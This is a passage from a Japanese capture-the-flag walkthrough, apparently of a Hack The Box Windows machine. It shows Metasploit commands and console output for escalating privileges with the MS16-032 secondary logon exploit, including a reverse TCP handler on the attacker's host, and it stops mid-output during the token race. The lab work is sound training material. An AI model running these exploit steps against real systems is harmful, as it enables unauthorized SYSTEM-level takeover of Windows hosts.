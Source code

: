 これでユーザ権限を手に入れることができました。
次は管理者権限の取得を目指しましょう。

# 特権エスカレーション

meterpreterでシェルを手に入れているのでlocal_exploit_suggesterを使って、何か権限昇格に使えそうなものを探しましょう。

```
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(windows/http/rejetto_hfs_exec) > use post/multi/recon/local_exploit_suggester 
msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.8 - Collecting local exploits for x86/windows...
[*] 10.10.10.8 - 31 exploit checks are being tried...
[+] 10.10.10.8 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[*] Post module execution completed
```

ここではms16_032_secondary_logon_handle_privescを使って、権限昇格ができるか試してみましょう。

```
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set session 1
session => 1
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started reverse TCP handler on 10.10.14.7:4444 
[+] Compressed size: 1016
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\FrZYZbuwUY.ps1...
[*] Compressing script contents...
[+] Compressed size: 3596
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___ 
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|
                                            
                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1112

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 1376
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
```